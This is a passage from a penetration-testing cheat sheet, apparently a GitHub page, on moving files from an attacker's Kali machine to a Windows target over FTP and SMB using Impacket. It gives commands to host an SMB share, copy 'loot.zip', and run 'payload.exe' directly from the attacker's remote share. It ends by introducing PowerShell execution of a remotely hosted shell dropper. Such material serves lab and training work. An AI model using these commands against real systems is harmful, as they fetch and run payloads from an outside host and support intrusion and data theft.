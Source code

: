 You can check to see if the remote machine has Winscp.exe installed. Winscp is capable of connecting to an FTP server using passive mode and will not be blocked by the firewall.

### Transfering Files via SMB using Impacket
Kali comes loade with the incredible Impacket library which is a swiss army knife of network protocols... just Awesome.  You can easily create a SMB share on your local Kali machine and move files between Kali and Windows with ease.  
https://github.com/SecureAuthCorp/impacket  

First we will setup the SMB Share on Kali like so:
```
root@kali:~# impacket-smbserver root /root/Desktop
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
                                                                    
```

Confirm it is up and running using Net View on the Windows command line:
```
C:\Users\Null>net view \\192.168.0.49
Shared resources at \\192.168.0.49

(null)

Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
smbshare    Disk
The command completed successfully.
```
Then we can trasnfer files from the command line as if it were a normal folder:  
```
C:\Users\Admin>dir \\192.168.0.49\smbshare 
C:\Users\Admin>copy \\192.168.0.49\smbshare\loot.zip .  
```
By far the most interesting feature of the SMB Share method is that you can execute files directly over the SMB Share without copying them to the remote machine (fileless execution is so hot right now):
```
C:\Users\Admin>\\192.168.0.49\smbshare\payload.exe
```

A fancy trick I learned from IPPSec is to create a mapped drive to a remote SMB share like so:
```
net use y: \\192.168.0.49\smbshare  
y: 
dir 
```
## Execute a remote shell dropper
Often, you can leverage PowerShell to execute a remotely hosted powershell script which contains a shell dropper (generated by the platform of your choosing).  

